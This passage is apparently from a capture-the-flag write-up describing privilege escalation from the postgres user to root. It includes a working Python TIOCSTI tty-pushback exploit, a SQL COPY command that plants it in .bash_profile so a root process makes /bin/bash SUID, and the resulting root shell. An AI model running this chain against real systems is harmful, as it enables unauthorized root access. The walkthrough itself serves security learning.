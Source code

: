 We have an interesting `privilage`.

    pg_write_server_files

With the `pg_write_server_files` permission we can <span class="underline">write to files</span> so it will be our way to escalate privileges.

And if we check the `processes` we can see that the following command is executed as root every few minutes.

    su -l postgres

![img](./pics/process.jpg)

With which **root impersonates** the user postgrees so we can take advantage of it to exploit the `tty pushback` <span class="underline">vulnerability</span> and escalate to **root**.

    #!/usr/bin/env python3
    import fcntl
    import termios
    import os
    import sys
    import signal
    
    os.kill(os.getppid(), signal.SIGSTOP)
    
    for char in sys.argv[1] + '\n':
        fcntl.ioctl(0, termios.TIOCSTI, char)

And we run it from `postgres`.

    download=> COPY (SELECT CAST('/tmp/test.py "chmod u+s /bin/bash"' AS text)) TO '/var/lib/postgresql/.bash_profile'; 
    COPY 1

We wait a couple of minutes for `root` to <span class="underline">re-execute</span> the command and we will see that the bash binary has `suid permissions`.

    ls -l /bin/bash
    -rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

For escalete the privilage we can run this command and close the job!

    bash -p
    bash-5.0# id
    uid=1000(wesley) gid=1000(wesley) euid=0(root) groups=1000(wesley)

